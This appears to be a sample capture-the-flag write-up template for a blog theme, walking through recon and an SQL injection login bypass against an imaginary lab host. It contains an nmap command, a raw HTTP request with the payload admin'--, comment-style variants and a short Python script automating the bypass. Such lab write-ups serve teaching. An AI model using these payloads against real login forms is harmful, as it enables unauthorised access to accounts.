

This is a **sample writeup** so you can see how everything renders. Delete this file and `2026-09-14-sample-xor-known-plaintext.md` when you add your own. The target is an imaginary lab with a login form at `/login`.

## Recon

An initial scan shows one open web port. Screenshots go in `posts/img/` and are linked with a relative path. Click one to zoom.

```bash
nmap -sC -sV -p- --min-rate 2000 -oN nmap.txt 10.10.10.10
```



| Port | Service | Notes |
|------|---------|-------|
| 22   | OpenSSH 8.9 | Nothing useful without creds |
| 80   | nginx 1.18 | Login form at `/login` |

## Foothold

The login form builds its query by string concatenation. Sending a single quote returned a database error, which confirms the injection point.

```http
POST /login HTTP/1.1
Host: 10.10.10.10
Content-Type: application/x-www-form-urlencoded

username=admin'--&password=x
```

The query becomes `SELECT * FROM users WHERE username='admin'--' AND password='x'`, so the password check is commented out.

> [!TIP]
> If `--` doesn't work, try `#` on MySQL or a trailing `/*`. The comment style depends on the database.

### Automating it

Once you understand the manual version, a script makes it repeatable:

```python
import requests

url = "http://10.10.10.10/login"
payload = {"username": "admin'--", "password": "x"}

r = requests.post(url, data=payload, allow_redirects=False)
print(r.status_code, r.headers.get("Location"))
```

## Flags

> [!FLAG]
> THM{sample_flag_goes_here}

> [!WARNING]
> Only publish flags if the platform allows it. Blur or redact them otherwise.

## Lessons learned

- Parameterised queries would have stopped this entirely.
- Link to another writeup with a relative link, like [the XOR sample](2026-09-14-sample-xor-known-plaintext.md).
- Use `Ctrl`+`F` in Burp's Repeater to search responses quickly.
